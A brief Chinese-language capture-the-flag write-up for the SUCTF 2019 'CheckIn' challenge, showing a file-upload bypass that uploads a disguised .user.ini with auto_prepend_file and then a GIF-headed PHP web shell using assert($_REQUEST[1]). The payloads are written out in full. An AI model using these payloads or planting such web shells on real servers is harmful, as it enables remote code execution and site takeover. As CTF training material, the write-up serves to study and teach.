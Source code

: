 # [SUCTF 2019]CheckIn

## 知识点

`.user.ini`

`文件上传`

## 解题

上传`.user.ini`

```
Content-Disposition: form-data; name="fileUpload"; filename=".user.ini"
Content-Type: image/gif

GIF89a
auto_prepend_file=1.gif
```

上传`shell`

```
Content-Disposition: form-data; name="fileUpload"; filename="1.gif"
Content-Type: image/gif

GIF89a
<script language='php'>assert($_REQUEST[1]);</script>
```

最后使用同目录下的`index.php`文件运行`shell`

因为`.user.ini`会使当前目录下的所有`php`文件包含`auto_prepend_file`后的文件